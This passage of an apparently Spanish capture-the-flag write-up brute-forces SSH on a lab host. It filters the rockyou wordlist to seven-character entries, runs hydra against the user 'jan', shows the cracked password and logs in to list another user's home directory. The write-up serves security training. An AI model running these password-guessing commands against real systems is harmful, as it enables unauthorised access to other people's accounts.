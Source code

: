 | ![](https://hackmd.io/_uploads/BkuFISIth.png) | 
| :--: |
| Longitud de la flag que pregunta por la contraseña |

~~~shell
grep -oE '^.{7}$' /usr/share/wordlist/rockyou.txt > /usr/share/wordlist/rockyou-7.txt
egrep -o '^.{7}$' /usr/share/wordlist/rockyou.txt > /usr/share/wordlist/rockyou-7.txt
~~~

~~~shell
$ hydra ssh://$IP -l jan -P /usr/share/wordlist/rockyou-7.txt
~~~

<details class=info><summary>Explicación del comando</summary></details>

~~~plaintext
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-07 21:13:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 2507225 login tries (l:1/p:2507225), ~156702 tries per task
[DATA] attacking ssh://10.10.219.185:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 2507052 to do in 234:45h, 16 active
[22][ssh] host: 10.10.219.185   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-07 21:15:16
~~~

## Acceso al host con SSH

Iniciamos la sessión SSH con `jan` y y contraseña `armando`
~~~shell
ssh jan@$IP 
jan@basic2:~$
~~~

### Directorios de interes

~~~shell
jan@basic2:~$ ls /home -al
total 16
drwxr-xr-x  4 root root 4096 Apr 19  2018 .
drwxr-xr-x 24 root root 4096 Apr 23  2018 ..
drwxr-xr-x  2 root root 4096 Apr 23  2018 jan
drwxr-xr-x  5 kay  kay  4096 Apr 23  2018 kay
~~~

~~~shell
jan@basic2:~$ cd /home/kay
jan@basic2:/home/kay$ ls -al
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
~~~

[^1]: Is the username in Unix case sensitive? (2023, July 13). Recuperado de <https://unix.stackexchange.com/questions/235049/is-the-username-in-unix-case-sensitive/235086#235086>
[^2]: SMB port number: Ports 445, 139, 138, and 137 explained. (2023, July 13). Recuperado de <https://4sysops.com/archives/smb-port-number-ports-445-139-138-and-137-explained>
[^3]: CAPEC - CAPEC-112: Brute Force (Version 3.9). (2023, July 13). Recuperado de <https://capec.mitre.org/data/definitions/112.html>
[^4]: CAPEC - CAPEC-49: Password Brute Forcing (Version 3.9). (2023, July 13). Retrieved from <https://capec.mitre.org/data/definitions/49.html>
[^5]: CAPEC - CAPEC-16: Dictionary-based Password Attack (Version 3.9). (2023, July 13). Retrieved from https://capec.mitre.org/data/definitions/16.html